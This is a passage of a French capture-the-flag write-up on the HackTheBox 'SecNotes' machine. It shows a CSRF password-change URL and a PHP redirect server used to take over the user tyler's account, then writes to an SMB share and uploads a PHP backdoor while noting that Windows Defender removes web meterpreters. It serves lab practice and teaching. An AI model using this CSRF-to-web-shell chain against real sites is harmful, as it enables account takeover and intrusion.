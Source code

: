 Il suffit de tester avec notre compte avec l'URL suivante :  

```plain
http://secnotes.htb/change_pass.php?password=devloop456&confirm_password=devloop456&submit=submit
```

On obtient alors un message indiquant que le mot de passe a été changé. Suspense : on déconnecte, on rentre le nouveau pass, ça marche :)  

Si on fouille un peu dans la doc PowerShell on voit que *WebClient* suit par défaut les redirections et ce jusqu'à 50 redirections chaînées.  

L'étape suivante consiste à écrire un script PHP qui effectue juste un *header("Location: url\_provoquant\_le\_changement\_de\_password")* puis lancer un serveur web minimaliste avec support du PHP.  

On envoie ensuite le lien à *tyler* pour provoquer le changement de son mot de passe :  

```plain
$ php -S 10.10.14.35:8080
PHP 7.2.9-1 Development Server started at Wed Aug 29 11:04:35 2018
Listening on http://10.10.14.35:8080
Document root is /home/devloop/Documents/secnotes/jail
Press Ctrl-C to quit.
[Wed Aug 29 11:05:58 2018] 10.10.10.97:63765 [302]: /
```

Une fois connecté on voit des identifiants parmi les mémos de *Tyler* :  

![HackTheBox SecNotes Tyler credentials](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/secnotes_newsite_passwd.png)

Run-P.H.P.
----------

Bien sûr on est tenté d'utiliser ces identifiants pour lancer un psexec / wmiexec... mais ça ne marche pas.  

Les identifiants nous donnent toutefois accès en écriture à un partage baptisé *new-site* :  

```plain
$ smbclient -U tyler //secnotes.htb/new-site
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug 29 11:10:53 2018
  ..                                  D        0  Wed Aug 29 11:10:53 2018
  iisstart.htm                        A      696  Thu Jun 21 17:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 17:26:03 2018
```

Ces fichier correspondent à ce que l'on peut trouver sur le port 8808. On peut y placer du PHP qui sera interprété, peut être aussi de l'ASP mais *Windows Defender* est prêt à supprimer nos web-meterpreters.  

J'ai commencé par uploader une backdoor généraliste (voir [ce précédent article](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file)) histoire de fouiller un peu :  
